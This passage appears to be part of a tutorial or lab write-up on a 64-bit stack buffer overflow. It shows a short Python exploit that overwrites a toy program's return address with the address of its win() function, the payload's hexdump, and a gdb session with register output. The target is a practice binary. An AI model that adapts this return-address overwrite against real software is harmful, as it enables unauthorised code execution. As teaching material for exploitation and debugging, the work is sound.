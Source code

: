 The `win()` function starts at `0x00005555555551af`

### Exploit file

```python
#!/usr/bin/python3

import sys

prefix = b"AAAABBBBCCCCDDDDEE"
eip = b'\xaf\x51\x55\x55\x55\x55\x00\x00'
postfix = b"GGHHHHIIIIJJJJ"

sys.stdout.buffer.write(prefix + eip + postfix)
```

The program prints out the letters, with eight letters in the middle changed, some of them unprintable

```bash
$ ./exploit-pwd64
AAAABBBBCCCCDDDDEE▒QUUUUGGHHHHIIIIJJJJ
```

Hexdump of the file shows the 40 character input with the memory address of the `win()` function substituted in the middle

```bash
$ ./exploit-pwd64 > attack-pwd64
$ xxd attack-pwd64
00000000: 4141 4141 4242 4242 4343 4343 4444 4444  AAAABBBBCCCCDDDD
00000010: 4545 af51 5555 5555 0000 4747 4848 4848  EE.QUUUU..GGHHHH
00000020: 4949 4949 4a4a 4a4a                      IIIIJJJJ
```

## Testing the Exploit in the Debugger

```bash
$ gdb -q pwd64
Reading symbols from pwd64...
(gdb) break 9
Breakpoint 1 at 0x11a8: file pwd.c, line 9.
(gdb) break 14
Breakpoint 2 at 0x11c2: file pwd.c, line 14.
(gdb) run --args < attack-pwd64
Starting program: /home/debian/pwd64 --args < attack-pwd64
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Password address: 0x7fffffffe396

Breakpoint 1, test_pw () at pwd.c:9
9               return 1;
```

```bash
(gdb) info registers
rax            0x7fffffffe396      140737488348054
rbx            0x7fffffffe4c8      140737488348360
rcx            0x7fffffffe396      140737488348054
rdx            0xfbad2098          4222427288
rsi            0x5555555596b0      93824992253616
rdi            0x7ffff7fafa20      140737353808416
rbp            0x7fffffffe3a0      0x7fffffffe3a0
rsp            0x7fffffffe390      0x7fffffffe390
r8             0x0                 0
r9             0x0                 0
r10            0x1000              4096
r11            0x246               582
```